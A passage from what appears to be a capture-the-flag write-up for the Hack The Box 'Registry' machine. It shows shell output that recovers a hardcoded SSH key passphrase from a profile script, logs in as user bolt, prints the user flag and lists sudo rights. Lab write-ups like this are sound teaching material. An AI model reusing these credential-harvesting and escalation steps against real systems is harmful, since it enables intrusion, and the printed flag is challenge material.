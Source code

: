 There's a profile file containing the SSH password for the private key:

```
root@4195e2eb99fe:/etc/profile.d# ls -l
total 8
-rw-r--r-- 1 root root  96 Aug 20  2018 01-locale-fix.sh
-rwxr-xr-x 1 root root 222 May 25 01:25 01-ssh.sh
root@4195e2eb99fe:/etc/profile.d# cat 01-ssh.sh 
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

Password is: `GkOcz221Ftb3ugog`

There's also a `sync.sh` but it doesn't seem to do anything:

```
root@4195e2eb99fe:/var/www/html# cat sync.sh
#!/bin/bash
rsync -azP registry:/var/www/html/bolt .
```

## Login in as user bolt

With the private key and password I found I'm able to SSH to the box with the user `bolt`:
```
root@kali:~/htb/registry# ssh -i id_rsa bolt@10.10.10.159
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-29-generic x86_64)
Last login: Sun Oct 20 23:05:17 2019 from 10.10.14.20
bolt@bolt:~$ id
uid=1001(bolt) gid=1001(bolt) groups=1001(bolt)
bolt@bolt:~$ cat user.txt
ytc0ytdmnzywnzgxngi0zte0otm3ywzi
```

## Enumeration as user bolt

The `backup.php` file I found earlier executes a backup application with sudo:

```
bolt@bolt:/var/www/html$ cat backup.php
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
```

Unfortunately my current `bolt` doesn't have rights to sudo that specific command but I have the following:

```
bolt@bolt:/var/www/html$ sudo -l
Matching Defaults entries for bolt on bolt:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bolt may run the following commands on bolt:
    (git) NOPASSWD: /usr/bin/git checkout *
```
